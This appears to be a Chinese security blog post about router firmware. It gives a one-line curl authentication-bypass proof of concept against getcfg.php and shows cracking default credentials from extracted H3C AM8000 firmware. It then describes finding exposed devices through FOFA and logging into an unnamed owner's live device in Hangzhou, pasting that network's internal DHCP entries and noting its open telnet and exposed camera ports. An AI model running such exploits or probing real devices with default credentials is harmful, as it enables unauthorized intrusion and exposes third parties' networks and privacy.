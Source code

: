 ![截屏2021-07-16 下午3.55.48.png](https://i.loli.net/2021/07/16/QxocdSr2PITnA9J.png)

`Poc: curl -d "SERVICES=DEVICE.ACCOUNT&attack=ture%0aAUTHORIZED_GROUP=1" "http://{ip.addr}:{ip.port}/info/getcfg.php"`

## 一：*H3C-AM8000V100R008*

- 下载地址：[*H3C - AM8000V100R008*](https://download.h3c.com.cn/download.do?id=2280937)

### 1x01 *binwalk*提取*systemfiles*

官网显示是2015年上传的包，下载下来直接在ubuntu里解包`➜ binwalk -Me AM8000V100R008.bin`，尴尬的是所有的文件就直接出来了么

![截屏2021-08-12 下午4.42.31.png](https://i.loli.net/2021/08/12/gZJaWD2EswuilcN.png)

发现`shadow`，解出来看看：`➜ john -format=md5crypt {file/path}  && john --show {file/path}`

![截屏2021-08-12 下午4.45.13.png](https://i.loli.net/2021/08/12/gmQKfkXq5w2nDsA.png)

### 1x02 默认帐号密码

> fofa: userLogin.asp

既然有了默认账号密码，去找找看有没有`幸运儿`，查看`web.config`入口文件为`userLogin.asp`，那就直接指定语法；

#### # 来自杭州的幸运儿

![截屏2021-08-13 上午11.25.22.png](https://i.loli.net/2021/08/13/IoJDbNSjw61398x.png)

不光弱口令，还映射了n个内网端口到公网上，映射出来的端口是Hikvison的视频流端口和web管理，就不贴图了可以参考[Hikvision-ConfigurationFiles-decrypter](/about/Hikvision-ConfigurationFiles-decrypter)；

另外附上部分dhcp指向表自行感受一下：
```
5	F4:83:CD:00:62:CD	192.168.x.7	TL-WDR5600
6	18:87:40:96:43:7F	192.168.x.8	RedmiK305G-2510
7	58:6B:14:26:B4:4C	192.168.x.9	guoqingdeiPhone
8	4C:CC:6A:AA:D0:45	192.168.x.10	wp-pjb
9	74:27:EA:AC:44:2D	192.168.x.11	yjy-jcb
10	40:F2:E9:37:04:96	192.168.x.13	IMM2-40f2e93704
```
当然也是支持`telnet`连接的：

![截屏2021-08-13 上午11.36.26.png](https://i.loli.net/2021/08/13/ZzPJSMpRnKqVNUQ.png)

#### [未完待续...]

## 参考

- [路由器文件系统与提取](https://www.cnblogs.com/blacksunny/p/7208451.html){:target="_blank"}
- [squashFS 文件系统](https://sabersauce.github.io/2016/07/28/squashFS-%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F/){:target="_blank"}
- [路由器固件下的小试牛刀](https://www.anquanke.com/post/id/245530){:target="_blank"}

